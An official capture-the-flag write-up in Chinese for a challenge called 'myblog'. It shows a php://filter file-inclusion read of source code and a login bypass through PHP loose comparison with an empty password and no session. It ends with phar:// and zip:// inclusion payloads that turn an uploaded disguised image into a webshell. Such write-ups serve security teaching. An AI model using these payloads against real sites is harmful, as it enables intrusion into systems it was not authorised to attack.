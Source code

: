 # myblog 官方wp

## 登录

打开是个blog,发现没什么交互点,只有一个login,但是不知道账号密码,尝试爆破是没啥用的...

注意到GET请求参数里有一个`page=login`,测试下这个点是否存在文件包含漏洞,使用`page=php://filter/read=convert.base64-encode/resource=login`成功读取到文件源码,注意到

```php
...
<form method="post" action="/?page=admin/user" class="form-validate" id="loginFrom">  // 表单提交到这个路径
...
<?php
require_once("secret.php");
mt_srand($secret_seed);
$_SESSION['password'] = mt_rand();
?>

```

再次读取admin/user.php的文件源码,查看登录逻辑

```php
<?php
error_reporting(0);
session_start();
$logined = false;
if (isset($_POST['username']) and isset($_POST['password'])){
	if ($_POST['username'] === "Longlone" and $_POST['password'] == $_SESSION['password']){  // No one knows my password, including myself
		$logined = true;
		$_SESSION['status'] = $logined;
	}
}
if ($logined === false && !isset($_SESSION['status']) || $_SESSION['status'] !== true){
    echo "<script>alert('username or password not correct!');window.location.href='index.php?page=login';</script>";
	die();
}
?>
```

可以看到password存在弱比较,假设在没有SESSION的情况下尝试抓包使用用户名Longlone,密码为空登录,此时由于$_SESSION['password']不存在而绕过了密码的判断,登录成功

## 文件上传

通过读取admin/user.php的源码,我们发现中间有一段上传的逻辑

```php
<?php
    if(isset($_FILES['Files']) and $_SESSION['status'] === true){
        $tmp_file = $_FILES['Files']['name'];
        $tmp_path = $_FILES['Files']['tmp_name'];
        if(($extension = pathinfo($tmp_file)['extension']) != ""){
            $allows = array('gif','jpeg','jpg','png');
            if(in_array($extension,$allows,true) and in_array($_FILES['Files']['type'],array_map(function($ext){return 'image/'.$ext;},$allows),true)){
                $upload_name = sha1(md5(uniqid(microtime(true), true))).'.'.$extension;
                move_uploaded_file($tmp_path,"assets/img/upload/".$upload_name);
                echo "<script>alert('Update image -> assets/img/upload/${upload_name}') </script>";
            } else {
                echo "<script>alert('Update illegal! Only allows like \'gif\', \'jpeg\', \'jpg\', \'png\' ') </script>";
            }
        }
    }
?>
```

这里有一个小坑,很多人问我为什么上传提示成功但是实际上并没有上传,这是由于这里move_uploaded_file使用的是相对路径,如果他们直接访问/admin/user.php而不是?page=admin/user,由于相对路径的问题就会上传失败

这里注意到上传是白名单,不能上传php文件,但是联系到我们之前有个文件包含漏洞,我们可以想到文件包含漏洞的一个知识点:利用zip/phar协议

## GETFLAG

这里上传一个zip/phar文件都可以,具体如何生成phar请搜索相关文章,然后将文件后缀改成png等合法文件后缀即可

phar的payload: `?page=phar://var/www/heml/assets/img/upload/xxx.png/shell`

zip的payload:`?page=zip://var/www/heml/assets/img/upload/xxx.png%23shell`

成功getshell之后在根目录读取flag